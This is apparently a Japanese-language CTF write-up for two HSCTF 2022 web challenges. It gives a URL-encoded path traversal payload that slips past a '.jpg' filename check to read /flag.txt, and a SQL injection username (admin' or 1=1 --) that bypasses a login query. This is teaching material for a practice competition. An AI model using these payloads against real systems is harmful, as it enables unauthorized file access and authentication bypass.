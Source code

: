 # HSCTF 2022

## web

### web/gallery

hmmm
290 solves / 210 points
Look at these images I found!

<http://web1.hsctf.com:8003>

[gallery.zip](dist/gallery.zip)

---

`main.py`がFlaskのバックエンドapiになっている。

```py
if ".jpg" not in request.args["image"]:
  return "Invalid filename", 400
```

--> ここから、`image`に、`.jpg`という文字列が含まれる必要があることが分かる。


```py
return send_file("/flag.txt")
```

--> ここから、ルートディレクトリにフラグがあることが分かる。

---

以上の３つのヒントから、下記のURLを用意。

まずは単純に、`../../../flag.txt`を含ませる。

<http://web1.hsctf.com:8003/image?image=../../../flag.txt>

これだとURLとして機能しないため、URLエンコーディングを行う。

<http://web1.hsctf.com:8003/image?image=%2e%2e%2f%2e%2e%2f%2e%2e%2fflag.txt>

ここで、`.jpg`を含めるために、`%.jpg`をつける。

<http://web1.hsctf.com:8003/image?image=%.jpg%2e%2e%2f%2e%2e%2f%2e%2e%2fflag.txt>

出来上がったURLでアクセスしてみるとフラグが表示される。

### web/squeal

jalibreeze
256 solves / 242 points
Can you log into this super secret site as admin? It's okay to SQueaL

<http://web1.hsctf.com:8006/>

[squeal.zip](dist/squeal.zip)

---

```js
`SELECT * FROM users WHERE username = '${username}' AND password = '${password}';`
```

--> これがまず怪しい

[prepare better-sqlite3 ctf というキーワードで検索](https://www.google.com/search?q=prepare+better-sqlite3+ctf)すると、ほぼおなじソースコードで出題している過去のCTFがあったらしい。

- <https://ctftime.org/writeup/21984>
- <https://willgreen.tech/writeups/DiceCTF-2021-Writeups/>

SQLクエリが下記になるようにユーザー名とパスワードを入力すればいい。

```js
"SELECT * FROM users WHERE username = 'admin' or 1=1 -- ' AND password = '${password}';"
```

よってユーザー名は`admin' or 1=1 --`、パスワードはなんでもいい。
これでフラグが取れる。

